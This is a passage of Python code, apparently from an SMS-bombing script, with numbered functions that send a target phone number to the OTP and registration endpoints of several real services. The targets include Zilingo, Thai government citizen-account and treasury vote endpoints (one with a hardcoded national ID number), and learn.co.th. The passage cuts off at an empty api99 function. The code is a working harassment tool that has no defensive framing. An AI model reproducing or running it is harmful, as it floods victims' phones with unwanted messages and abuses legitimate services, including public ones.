     



#Zilingo

def api95(phone):

    post("https://id.zilingo.com/api/v1/userVerification/initiate?up_s=B2B_ASIA_MALL&up_cd=v1_eyJjbGllbnRVc2VySWRlbnRpZmljYXRpb24iOnsiYW5vbnltb3VzVXNlcklkT3B0IjoiQUlENTUwMDY3MTIzMjA0NTY2MDkyIiwic2Vzc2lvbklkT3B0IjoiU0lENTUwMDY3MTIzMjA0NTY2MDkyIiwidXNlcklkT3B0IjpudWxsfSwic2NyZWVuT3B0Ijp7InNjcmVlblR5cGUiOiJDQVRFR09SWSIsInNjcmVlbklkIjoiV0NMIiwic2NvcGUiOm51bGx9LCJidXllclJlZ2lvbk9wdCI6IkIyQl9USEEiLCJsb2NhbGVDb2RlIjoidGgiLCJxdiI6eyJjbGllbnQiOiJXZWIiLCJzdWJDbGllbnQiOiJEZXNrdG9wV2ViIiwidmVyc2lvbiI6IjM1LjguNSJ9fQ==",headers=header,json={"channelDetails":{"phoneNumber":f"+66{phone[1:]}","channelType":"SMS"},"source":"UNIFIED_LOGIN","action":"OTP_LOGIN","redirectTo":"/th-th/Women/Clothing"})

    



#DGA

def api96(phone):

    post("https://accounts.egov.go.th/Citizen/Account/MobileRegisterJson",headers=header,json={"Mobile":f"{phone}","TransactionId":"f28ef0a2-23ff-4abd-b9e6-fdfc271298ea"})

    



def api97(phone):

    post("https://tdhw.treasury.go.th/TD-Vote/api/otp/request",json={"ID_CARD":"1104200197909","TEL":f"{phone}","OTP_TYPE":"OTP_TEST"})

    



def api98(phone):

    post("https://user-api.learn.co.th/authentication/sendOTP",json={"mobileNumber": phone},headers={"user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","Host": "user-api.learn.co.th","content-length": "29","sec-ch-ua-mobile": "?1","content-type": "application/json;charset=UTF-8","accept": "application/json, text/plain, /","sec-ch-ua-platform": "Android","origin": "https://user.learn.co.th","sec-fetch-site": "same-site","sec-fetch-mode": "cors","sec-fetch-dest": "empty","referer": "https://user.learn.co.th/","x-api-key": "USER_API_KEY"})

    



#FOODDIARY

def api99(phone):
